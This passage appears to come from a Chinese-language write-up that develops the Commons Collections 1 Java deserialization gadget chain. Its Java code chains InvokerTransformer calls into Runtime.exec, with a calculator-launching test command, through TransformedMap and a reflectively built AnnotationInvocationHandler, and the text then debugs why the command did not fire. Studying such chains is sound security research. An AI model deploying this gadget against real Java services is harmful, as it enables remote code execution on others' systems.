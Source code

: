 而 `memberValues` 的值在构造方法中传入。

![image-20230310141852563](attachments/image-20230310141852563.png)

```java
        Transformer getMethodTransformer = new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null});
        Method getRuntimeMethod = (Method) getMethodTransformer.transform(Runtime.class);
        Transformer runtimeTransformer = new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null});
        Runtime runtime = (Runtime) runtimeTransformer.transform(getRuntimeMethod);
        Transformer execTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"open -a Calculator.app"});
//        execTransformer.transform(runtime);
        HashMap map = new HashMap();
        map.put("value", "value");
        Map<Object, Object> transMap = TransformedMap.decorate(map, null, execTransformer);
//        for (Map.Entry entry : transMap.entrySet()) {
//            entry.setValue(runtime);
//        }

        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler annotationInvocationHandler = (InvocationHandler) constructor.newInstance(Target.class, transMap);
```

对 Gadget 初步改造后为如上形式，但并没有触发命令，跟进调试。

memberTypes 即注解的方法，通过传入Map的 key 值去注解中取，看是否存在相应方法

![image-20230306233412364](attachments/image-20230306233412364.png)
